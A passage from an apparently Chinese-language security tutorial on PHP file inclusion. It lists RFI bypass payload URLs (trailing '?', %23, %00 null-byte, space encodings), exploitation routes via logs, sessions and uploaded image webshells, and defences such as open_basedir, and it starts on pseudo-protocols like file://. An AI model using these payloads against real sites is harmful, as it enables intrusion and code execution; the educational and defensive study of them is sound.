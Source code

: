   - 问号绕过（在url中，?用于分割url和请求参数）

    ```
    http://xxx/include.php?file=http://xxx/x.jpg?
    ```

  - %23绕过（在url中，#后的内容为锚部分）

    ```
    http://xxx/include.php?file=http://xxx/x.jpg%23
    ```

  - 截断

    ```
    http://xxx/include.php?file=http://xxx/x.jpg%00
    ```

  - 空格绕过（windows可行）

    ```
    http://xxx/include.php?file=http://xxx/x.jpg空格
    http://xxx/include.php?file=http://xxx/x.jpg%20
    http://xxx/include.php?file=http://xxx/x.jpg+
    ```

## 文件包含漏洞利用总结

1. 本地包含日志文件（access_log,error_log)
2. 网站将用用信息存入session文件中，注册用户包含session文件
3. 存在文件上传漏洞，白名单校验上传图片马，结合本地文件包含图片马

## 文件包含防御方式

1. 严格判断包含中的参数是否外部可控（外部传参）
2. 路径限制（传参拼接路径）
3. 包含文件验证（检查传参是否包含敏感文件）
4. 尽量不要使用动态包含，可以在需要包含的页面固定写好（固定包含文件）
5. php中可以使用open_basedir配置限制访问（利用php.ini中open_basedir配置php脚本访问的路径）
6. 过滤`.\/`等（过滤敏感字符.../)
7. 禁止服务器远程文件包含

## 伪协议

![image-20220915155219656](https://oos.luoyunhao.com/blog-img/202209151552731.png)

- file://

  读取文件内容（使用绝对路径）(读取php代码时自动执行)

  > allow url fopen=on/off
  > allow url include=on/off
  >
  > 以上情况均可读
